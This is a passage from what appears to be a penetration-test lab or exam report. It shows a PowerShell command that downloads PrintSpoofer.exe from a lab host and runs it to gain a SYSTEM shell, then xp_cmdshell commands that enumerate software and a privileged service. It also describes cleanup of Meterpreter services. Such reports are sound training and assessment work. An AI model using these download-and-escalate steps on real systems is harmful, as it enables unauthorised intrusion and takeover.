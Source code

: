 ```bash
cd c:\users\public\
powershell -c "iwr http://192.168.49.186/PrintSpoofer.exe -outfile c:\users\public\PrintSpoofer.exe"
PrintSpoofer.exe -i -c cmd

# output
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.1217]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

```bash
whoami

# output
nt authority\system
```

## Covering Tracks
The house cleaning portions of the assessment ensures that remnants of the penetration test are removed. Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road. Ensuring that we are meticulous and no remnants of our penetration test are left over is important. After the trophies on both the lab network and exam network were completed, $Author removed all user accounts and passwords as well as the Meterpreter services installed on the system. Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items
Paths not explored.
```bash
EXEC xp_cmdshell 'dir "c:\Program Files"'

# output
04/27/2020  06:42 PM    <DIR>          Plantronics
```

```bash
EXEC xp_cmdshell 'powershell -c "gwmi win32_product | ? { $_.Name -like \"Plant*\"} | select Name, Version"'

# output
Plantronics Hub Software 3.13.52516.41952
```

```bash
EXEC xp_cmdshell 'powershell -c "gwmi win32_service | ? { $_.Name -like \"Plant*\"} | select Name, StartName"'

# output
PlantronicsUpdateService LocalSystem
```
